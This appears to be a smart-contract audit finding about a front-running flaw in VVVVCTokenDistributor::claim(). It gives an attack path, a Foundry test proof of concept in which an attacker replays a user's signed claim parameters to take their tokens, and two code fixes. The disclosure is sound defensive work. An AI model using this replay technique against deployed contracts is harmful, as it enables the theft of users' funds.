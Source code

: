 Bumpy Ginger Ram

High

# Attacker Can Front-Run `VVVVCTokenDistributor::claim()` Function and Steal Tokens Intended for `msg.sender`

## Description  

An attacker can monitor transactions calling the [VVVVCTokenDistributor::claim()](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/1791f41b310489aaa66de349ef1b9e4bd331f14b/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L102-L145) function in the mempool and front-run them by using the same submitted `ClaimParams` data, which includes the signature. This enables the attacker to steal the tokens intended for the first user who submitted the transaction.  

## Impact  

- **Damage:** High  
- **Likelihood:** High  

**Impact Details:** attacker can steal tokens from the legitimate user, that is supposed to claim, causing financial loss.

## Proof of Concept  

**Attack Path:**  

1. The attacker monitors the mempool, waiting for a transaction where a user calls `VVVVCTokenDistributor::claim(ClaimParams memory _params)`.  
2. Once the transaction is submitted, the attacker captures the `_params` data and submits his own transaction with higher gas, ensuring it is processed first.  
3. attacker successfully steals all tokens intended for the user (`msg.sender`), leading to user transaction to revert.  

**POC:**  

put following test inside `VVVVCTokenDistributor.unit.t.sol`:

```javascript
    // run the test with: "forge test --match-test test_frontRunning_ClaimFunction_LeadsToTokenTheft -vvv" 
    function test_frontRunning_ClaimFunction_LeadsToTokenTheft() external {

        // 1. setup phase
        uint256 amountToClaim = 1_000_000 * 1e18;
        uint256[] memory projectTokenAmountToProxyWallet = new uint256[](3);
        projectTokenAmountToProxyWallet[0] = amountToClaim;
        projectTokenAmountToProxyWallet[1] = amountToClaim;
        projectTokenAmountToProxyWallet[2] = amountToClaim;

        // generate and sign Claim Parameters so `user` can use it to claim from `VVVVCTokenDistributor` contract
        VVVVCTokenDistributor.ClaimParams memory _params = generateClaimParamsWithSignature(
                                                                                             user,
                                                                                             projectTokenProxyWallets,
                                                                                             projectTokenAmountToProxyWallet
                                                           );


        // 2. Simulate the user's `claim()` function call (commented out here for illustration purposes)

        // vm.startPrank(user);

        //     TokenDistributorInstance.claim(_params);

        // vm.stopPrank();


        // 3. Attacker observes the user transaction in the mempool, copies `_params`, and submits the same transaction with higher gas
        vm.startPrank(attacker);

            TokenDistributorInstance.claim{gas: 300000}(_params);

        vm.stopPrank();


        // 4. The user's transaction fails because the signature was already used by the attacker
        vm.startPrank(user);

            vm.expectRevert();
            TokenDistributorInstance.claim(_params);

        vm.stopPrank();


        // 5. Balance checks to verify the attacker theft and the user loss
        assertEq(ProjectTokenInstance.balanceOf(attacker), amountToClaim * 3);
        assertEq(ProjectTokenInstance.balanceOf(user), 0);


    }
```

## Recommended Mitigation  

There are two potential fixes. Developers can choose based on their preferred implementation approach:  

1. **Direct Transfer to `kycAddress`:**  
   
   Refactor the `claim()` function to directly send the claimable tokens to `ClaimParams.kycAddress`, ensuring the recipient is fixed and even if attacker front-runs it, he will get nothing out of it.

```diff
   function claim(ClaimParams memory _params) public {
       ...

       // Transfer tokens from proxy wallets to the verified address
       for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
           projectToken.safeTransferFrom(
               _params.projectTokenProxyWallets[i],
-              msg.sender,
+              _params.kycAddress,
               _params.tokenAmountsToClaim[i]
           );
       }

       ...
   }
```

2. **Add a Relayer Check:**  
   
   If enabling a relayer is necessary, add an `address relayer` field to `ClaimParams` and update the `claim()` function to verify that the caller is either the `kycAddress` or the `relayer`.  

```diff
   contract VVVVCTokenDistributor is VVVAuthorizationRegistryChecker {

       struct ClaimParams {
           address kycAddress;
+          address relayer; // Optional relayer if permitted
           address projectTokenAddress;
           address[] projectTokenProxyWallets;
           uint256[] tokenAmountsToClaim;
           uint256 nonce;
           uint256 deadline;
           bytes signature;
       }

       function claim(ClaimParams memory _params) public {
           ...

+          if (msg.sender != _params.kycAddress && msg.sender != _params.relayer) revert UnAuthorizedClaimer();

           ...
       }
   }
```  

Both mitigations will resolve the issue by preventing unauthorized claim attempts through front-running. The choice depends on whether relayer functionality is required.  